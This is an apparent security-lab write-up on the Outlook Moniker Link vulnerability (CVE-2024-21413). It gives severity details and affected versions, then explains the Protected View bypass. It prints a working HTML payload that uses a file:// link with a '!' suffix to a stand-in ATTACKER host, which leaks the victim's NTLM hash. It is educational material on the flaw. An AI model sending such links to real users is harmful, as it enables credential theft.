

# Introduction

On February 13th, 2024, Microsoft announced a Microsoft Outlook <span style="color: inherit;">RCE</span> & credential leak vulnerability with the assigned <span style="color: inherit;">CVE</span> of [<span style="color: inherit;">CVE</span>\-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with [discovering the vulnerability](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/).

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's <span style="color: inherit;">NTLM</span> credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:

| **<span style="color: inherit;">CVSS</span>** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/<span style="color: inherit;">CVE</span>-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

The vulnerability is known to affect the following Office releases:

| **Release** | **Version** |
| --- | --- |
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |

&nbsp;

## <span style="color: #f9f9fb;">Moniker Link (CVE-2024-21413)</span>

Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as <span style="color: inherit;">HTTP</span> and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers). Normally, Outlook will prompt a security warning when external applications are triggered.



This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation).

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test>Click me</a>`). The <span style="color: inherit;">SMB</span> protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (<span style="color: inherit;">RCE</span>) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, there is no publicly released proof of concept for achieving <span style="color: inherit;">RCE</span> via this specific <span style="color: inherit;">CVE</span>.